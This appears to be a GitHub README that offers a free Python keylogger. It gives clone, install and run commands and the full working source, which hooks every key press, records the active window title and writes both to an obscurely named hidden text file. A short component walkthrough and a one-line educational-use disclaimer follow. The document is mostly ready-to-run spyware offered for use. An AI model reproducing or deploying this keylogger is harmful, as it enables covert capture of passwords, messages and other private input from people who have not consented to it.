 

# Free Python Keylogger

![🔑](https://github.githubassets.com/images/icons/emoji/unicode/1f511.png)

## Overview
This Python script logs key presses along with the title of the active window at the time of the key press. The logged data is saved to a file for later analysis.

## Features
- Logs each key press.
- Captures the title of the active window when a key is pressed.
- Saves the logged data to a specified file.

## Requirements
- Python 3.x
- `keyboard` library
- `pygetwindow` library

## Installation

1. **Clone the repository**:
    ```bash
    git clone https://github.com/adixon23w/keylogger.git
    cd keylogger
    ```

2. **Install dependencies**:
    ```bash
    pip install keyboard pygetwindow
    ```

## Usage

1. **Run the script**:
    ```bash
    python Keylogger.py
    ```

2. The script will start logging key presses and the active window titles. To stop the script, press `Ctrl+C`.

## Code Explanation

```python
import keyboard
import pygetwindow as gw

FILE_PATH = '.L3EgQar.txt'

def on_key_event(event):
    key = event.name
    active_window = gw.getActiveWindowTitle()
    with open(FILE_PATH, 'a') as file:
        file.write(f'm,{key} - {active_window}.\n')

keyboard.on_press(on_key_event)

try:
    keyboard.wait()
except KeyboardInterrupt:
    print("Program stopped.")
finally:
    keyboard.unhook_all()
```

### Key Components

- **`keyboard` library**: Used to capture key press events.
- **`pygetwindow` library**: Used to get the title of the active window.
- **`FILE_PATH`**: The path to the file where the log is saved.
- **`on_key_event` function**: Handles key press events, retrieves the active window title, and writes the data to the log file.
- **`keyboard.on_press(on_key_event)`**: Registers the `on_key_event` function to be called on each key press.
- **`keyboard.wait()`**: Waits indefinitely for key press events.
- **`try`/`except` block**: Ensures that the program can be gracefully stopped using `Ctrl+C`.


## Disclaimer
This script is intended for educational purposes only. Unauthorized use of a keylogger is illegal and unethical.
